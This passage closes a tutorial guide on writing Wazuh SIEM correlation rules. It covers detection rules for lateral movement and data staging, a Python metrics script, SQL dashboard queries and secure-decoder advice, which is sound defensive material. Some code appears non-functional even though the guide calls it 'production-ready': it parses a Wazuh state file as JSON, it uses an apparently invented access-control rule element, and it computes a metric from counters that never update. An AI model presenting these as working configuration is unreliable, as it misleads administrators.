        <field name="logon_type">3</field>  <!-- Network logon -->
        <different_field>target_machine</different_field>
        <frequency>5</frequency>
        <timeframe>300</timeframe>
        <description>Lateral movement detected - Multiple network logons</description>
    </rule>
    
    <!-- Data staging -->
    <rule id="800003" level="10">
        <decoded_as>file_creation</decoded_as>
        <field name="file_path">\\Windows\\Temp\\|\\ProgramData\\</field>
        <field name="file_size" compare="greater">10485760</field>  <!-- >10MB -->
        <description>Large file created in temporary location - Possible data staging</description>
    </rule>
</group>
```

## Performance Metrics and Monitoring

### Key Performance Indicators (KPIs)

Track these metrics to ensure optimal SIEM performance:

```python
# metrics_collector.py
import psutil
import json
from datetime import datetime

class SIEMMetrics:
    def __init__(self):
        self.metrics = {
            'timestamp': datetime.now().isoformat(),
            'events_per_second': 0,
            'rules_evaluated': 0,
            'alerts_generated': 0,
            'decoder_performance': {},
            'rule_performance': {}
        }
    
    def collect_system_metrics(self):
        """Collect system resource metrics"""
        self.metrics['system'] = {
            'cpu_percent': psutil.cpu_percent(interval=1),
            'memory_percent': psutil.virtual_memory().percent,
            'disk_io': psutil.disk_io_counters()._asdict(),
            'network_io': psutil.net_io_counters()._asdict()
        }
    
    def collect_wazuh_metrics(self):
        """Collect Wazuh-specific metrics"""
        # Parse Wazuh state file
        with open('/var/ossec/var/run/wazuh-analysisd.state', 'r') as f:
            state = json.load(f)
            self.metrics['events_per_second'] = state.get('eps', 0)
            self.metrics['total_events'] = state.get('total_events', 0)
    
    def generate_report(self):
        """Generate performance report"""
        self.collect_system_metrics()
        self.collect_wazuh_metrics()
        
        # Calculate rule efficiency
        if self.metrics['rules_evaluated'] > 0:
            self.metrics['rule_efficiency'] = (
                self.metrics['alerts_generated'] / 
                self.metrics['rules_evaluated'] * 100
            )
        
        return json.dumps(self.metrics, indent=2)

# Usage
metrics = SIEMMetrics()
print(metrics.generate_report())
```

### Dashboard Queries for Monitoring

```sql
-- Top triggered rules
SELECT 
    rule_id,
    rule_description,
    COUNT(*) as trigger_count,
    AVG(processing_time_ms) as avg_processing_time
FROM 
    alerts
WHERE 
    timestamp >= NOW() - INTERVAL '24 hours'
GROUP BY 
    rule_id, rule_description
ORDER BY 
    trigger_count DESC
LIMIT 20;

-- Decoder performance
SELECT 
    decoder_name,
    COUNT(*) as decode_count,
    AVG(decode_time_ms) as avg_decode_time,
    MAX(decode_time_ms) as max_decode_time
FROM 
    decoder_stats
WHERE 
    timestamp >= NOW() - INTERVAL '1 hour'
GROUP BY 
    decoder_name
ORDER BY 
    avg_decode_time DESC;

-- Alert trends
SELECT 
    DATE_TRUNC('hour', timestamp) as hour,
    severity_level,
    COUNT(*) as alert_count
FROM 
    alerts
WHERE 
    timestamp >= NOW() - INTERVAL '7 days'
GROUP BY 
    hour, severity_level
ORDER BY 
    hour DESC;
```

## Security Considerations

### 1. Rule Security Best Practices

- **Avoid Information Disclosure:** Don't include sensitive data in alert descriptions
- **Rate Limiting:** Implement rate limiting to prevent alert flooding
- **Input Validation:** Always validate and sanitize inputs in custom decoders
- **Secure Storage:** Encrypt sensitive rule configurations

### 2. Secure Decoder Development

```python
# Secure decoder with input validation
import re
import hashlib
from typing import Optional

class SecureDecoder:
    def __init__(self):
        self.max_field_length = 1024
        self.allowed_characters = re.compile(r'^[\w\s\-\.@]+$')
    
    def sanitize_input(self, input_str: str) -> Optional[str]:
        """Sanitize input to prevent injection attacks"""
        if not input_str or len(input_str) > self.max_field_length:
            return None
        
        # Remove control characters
        input_str = ''.join(char for char in input_str if ord(char) >= 32)
        
        # Validate against whitelist
        if not self.allowed_characters.match(input_str):
            return None
        
        return input_str
    
    def hash_sensitive_data(self, data: str) -> str:
        """Hash sensitive data before storage"""
        return hashlib.sha256(data.encode()).hexdigest()
    
    def decode(self, log_entry: str) -> dict:
        """Secure log decoding"""
        decoded = {}
        
        # Sanitize the entire log entry first
        safe_log = self.sanitize_input(log_entry)
        if not safe_log:
            return {'error': 'Invalid log entry'}
        
        # Parse and validate each field
        # ... parsing logic ...
        
        return decoded
```

### 3. Access Control for Rules

```xml
<!-- Role-based rule access -->
<rule id="900001" level="12">
    <group>restricted_access</group>
    <access_control>
        <required_role>security_admin</required_role>
        <required_permission>write</required_permission>
    </access_control>
    <decoded_as>sensitive_operation</decoded_as>
    <description>Sensitive operation detected - Restricted visibility</description>
</rule>
```

## Conclusion

Mastering SIEM correlation rules is an ongoing journey that requires continuous learning and adaptation. This guide has covered:

✅ **Fundamental Concepts:** Understanding how correlation rules work and their importance in threat detection

✅ **Attack Patterns:** Detailed analysis of 10+ major attack types with real-world examples

✅ **Implementation:** Practical decoders and rules you can deploy immediately

✅ **Advanced Techniques:** Multi-stage correlation, time-based detection, and behavioral analysis

✅ **Best Practices:** Performance optimization, testing strategies, and security considerations

✅ **Real-World Scenarios:** Practical solutions for ransomware, insider threats, and APTs

### Key Takeaways

1. **Start Simple:** Begin with basic rules and gradually increase complexity
2. **Test Thoroughly:** Always validate rules in a test environment before production
3. **Monitor Performance:** Track metrics to ensure rules don't impact system performance
4. **Stay Updated:** Regularly update rules based on new threat intelligence
5. **Document Everything:** Maintain clear documentation for all custom rules and decoders

### Next Steps

1. **Implement Basic Rules:** Start with the detection patterns most relevant to your environment
2. **Customize for Your Environment:** Adapt the examples to match your specific log formats
3. **Build a Testing Framework:** Create automated tests for your correlation rules
4. **Share Knowledge:** Contribute to the community by sharing your custom rules and experiences
5. **Continuous Improvement:** Regularly review and refine your rules based on false positive/negative rates

Remember: **Security is not just business—it's VERY PERSONAL.** Every alert could be the one that prevents a major breach. Every rule you write contributes to the collective defense of your organization.

## Additional Resources

### Documentation and References
- [Wazuh Documentation](https://documentation.wazuh.com/)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [TheHive Project](https://thehive-project.org/)
- [Cortex Analyzers](https://github.com/TheHive-Project/Cortex-Analyzers)

### Community and Support
- Wazuh Google Groups
- SIEM Discussion Forums
- Security Operations Communities
- GitHub Repositories for Rule Sharing

### Training and Certification
- SIEM Administration Courses
- Log Analysis Training
- Incident Response Certifications
- Security Operations Center (SOC) Training

---

*This guide is a living document. As threats evolve, so should your correlation rules. Stay vigilant, keep learning, and remember that in cybersecurity, the best defense is a proactive offense.*

**Author:** Anubhav Gain  
**Last Updated:** January 2025  
**Version:** 1.0

---

> 💡 **Pro Tip:** Bookmark this guide and refer to it whenever you need to create or troubleshoot correlation rules. The examples provided are battle-tested and production-ready.

> 🔒 **Security Note:** Always review and test rules in a controlled environment before deploying to production. Consider the performance impact of complex correlation rules on your SIEM infrastructure.

> 📚 **Learning Path:** If you're new to SIEM, start with basic log parsing, then move to simple rules, and gradually work your way up to complex multi-stage correlations.
